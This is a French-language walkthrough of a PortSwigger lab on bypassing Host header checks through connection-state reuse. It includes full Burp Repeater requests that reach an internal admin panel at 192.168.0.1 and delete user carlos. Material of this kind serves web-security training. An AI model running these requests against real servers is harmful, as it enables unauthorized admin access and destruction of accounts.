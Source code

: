 # Lab

https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack

## Solution

Certains serveurs Web utilisent l'en-tête `Connection` pour déterminer si une requête est une requête initiale ou une requête de suivi. Si la valeur de l'en-tête est `close`, le serveur considère la requête comme une requête initiale. Si la valeur de l'en-tête est `keep-alive`, le serveur considère la requête comme une requête de suivi.

En suivant ce principe, on peut envoyer deux requêtes, dans l'ordre :

- Une requête classique
- Une requête avec le header `Host` modifié

Si le serveur se base sur la première requête de la connection pour contrôler le header `Host` et qu'il laisse la deuxième requête passer, on peut contourner le contrôle.

Dans Burp Repeater, créer deux requêtes :

```http	
GET / HTTP/1.1
Host: 0aa2005203919a7e81058e2800c60072.h1-web-security-academy.net
Cookie: session=EXIvGCQ0tUxm9aKbA1a3BwnYZWsjp76h; _lab=46%7cMCwCFFZ2lsrleK%2bgw25EWCG8hpVuDC7KAhQyiN7fSYGKcsVyRM0Bzr62BEThb2Vym3cAcljnoYsXMEVa3S%2fee3pU%2fOPjjpCQHWxPAxuerVBoSEKPa6hYt9%2bMQg3TJZpWf%2bWCe3dM7uqwhMtKqyYGQ%2fq0RP%2f0LDWvGgsFtgQgCZGH67AcBCE%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0aa2005203919a7e81058e2800c60072.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
```

```http
GET /admin HTTP/1.1
Host: 192.168.0.1
Cookie: session=EXIvGCQ0tUxm9aKbA1a3BwnYZWsjp76h; _lab=46%7cMCwCFFZ2lsrleK%2bgw25EWCG8hpVuDC7KAhQyiN7fSYGKcsVyRM0Bzr62BEThb2Vym3cAcljnoYsXMEVa3S%2fee3pU%2fOPjjpCQHWxPAxuerVBoSEKPa6hYt9%2bMQg3TJZpWf%2bWCe3dM7uqwhMtKqyYGQ%2fq0RP%2f0LDWvGgsFtgQgCZGH67AcBCE%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0aa2005203919a7e81058e2800c60072.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Connection: keep-alive
```

Ce qui nous donne accès au panel admin et nous permet de supprimer l'utilisateur `carlos` en modifiant la deuxième requête :

```http
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: session=EXIvGCQ0tUxm9aKbA1a3BwnYZWsjp76h; _lab=46%7cMCwCFFZ2lsrleK%2bgw25EWCG8hpVuDC7KAhQyiN7fSYGKcsVyRM0Bzr62BEThb2Vym3cAcljnoYsXMEVa3S%2fee3pU%2fOPjjpCQHWxPAxuerVBoSEKPa6hYt9%2bMQg3TJZpWf%2bWCe3dM7uqwhMtKqyYGQ%2fq0RP%2f0LDWvGgsFtgQgCZGH67AcBCE%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0aa2005203919a7e81058e2800c60072.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=LUv4xBgM2uVb4Fofa4NFbSVhYU54eOSY&username=carlos
```